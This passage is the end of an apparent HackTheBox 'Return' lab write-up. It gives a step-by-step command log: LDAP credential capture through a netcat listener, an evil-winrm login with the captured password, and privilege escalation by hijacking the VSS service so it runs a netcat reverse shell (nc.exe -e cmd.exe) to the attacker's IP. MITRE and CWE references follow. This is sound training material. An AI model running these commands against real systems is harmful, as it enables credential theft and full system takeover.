| ------------- | ------------------------------------------------------------ | -------------------------------------------------------------- |
| `svc-printer` | Plaintext LDAP credential capture via netcat listener        | WinRM foothold; member of Server Operators                     |
| `NT AUTHORITY\SYSTEM` | Service binary path hijacking via Server Operators membership | Full system compromise; root.txt captured                |

### D. Command Reference Log

```bash
# ──────────────────────────────────────────────
# PHASE 1: RECONNAISSANCE & ENUMERATION
# ──────────────────────────────────────────────
sudo nmap 10.129.94.51 -sC -sV -Pn
echo "10.129.94.51 return.local" | sudo tee -a /etc/hosts
enum4linux 10.129.94.51

# ──────────────────────────────────────────────
# PHASE 2: WEB APPLICATION & CREDENTIAL INTERCEPTION
# ──────────────────────────────────────────────
# Browse to http://10.129.94.51/ → Printer Admin Panel
# Browse to http://10.129.94.51/settings.php → note svc-printer username

# Start LDAP listener on attacker machine:
sudo nc -lvnp 389

# Update Server Address to attacker IP in settings.php → click Update
# Credentials received: return\svc-printer / 1edFg43012!!

# ──────────────────────────────────────────────
# PHASE 3: INITIAL FOOTHOLD
# ──────────────────────────────────────────────
sudo gem update evil-winrm
evil-winrm -i 10.129.94.51 -u svc-printer -p '1edFg43012!!'
whoami
# return\svc-printer

cd C:\Users\svc-printer\Desktop
dir
cat user.txt
# 44183dce586892f7c2b55a23bae0f1de

# ──────────────────────────────────────────────
# PHASE 4: POST-EXPLOITATION & GROUP ENUMERATION
# ──────────────────────────────────────────────
net user svc-printer
# Server Operators confirmed

# ──────────────────────────────────────────────
# PHASE 5: SERVICE BINARY HIJACKING & SYSTEM SHELL
# ──────────────────────────────────────────────
# Upload nc.exe to target via Evil-WinRM:
upload /usr/share/windows-resources/binaries/nc.exe C:\\Users\\svc-printer\\Documents\\nc.exe

# Modify VSS service binary path:
sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.15.85 1234"

# Start listener on attacker machine:
nc -lvnp 1234

# Trigger execution:
sc.exe stop vss
sc.exe start vss

# In SYSTEM shell:
whoami
# nt authority\system
more C:\Users\Administrator\Desktop\root.txt
# c81cc73c910ab12d891ed206e17a10a9
```

### E. References

- [MITRE ATT&CK: T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
- [MITRE ATT&CK: T1557 — Adversary-in-the-Middle](https://attack.mitre.org/techniques/T1557/)
- [MITRE ATT&CK: T1552.001 — Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/)
- [MITRE ATT&CK: T1543.003 — Create or Modify System Process: Windows Service](https://attack.mitre.org/techniques/T1543/003/)
- [MITRE ATT&CK: T1069.002 — Permission Groups Discovery: Domain Groups](https://attack.mitre.org/techniques/T1069/002/)
- [CWE-284: Improper Access Control](https://cwe.mitre.org/data/definitions/284.html)
- [CWE-522: Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html)
- [CWE-732: Incorrect Permission Assignment for Critical Resource](https://cwe.mitre.org/data/definitions/732.html)
- [Microsoft Documentation: Server Operators Group](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#server-operators)
- [Official HackTheBox Return Machine Page](https://app.hackthebox.com/machines/Return)

> **Note on CVEs:** No CVEs apply to this assessment. All findings are misconfigurations, insecure application design decisions, and over-permissive access control assignments rather than vulnerabilities in versioned third-party software with public CVE assignments. Remediation is therefore configuration- and policy-based.
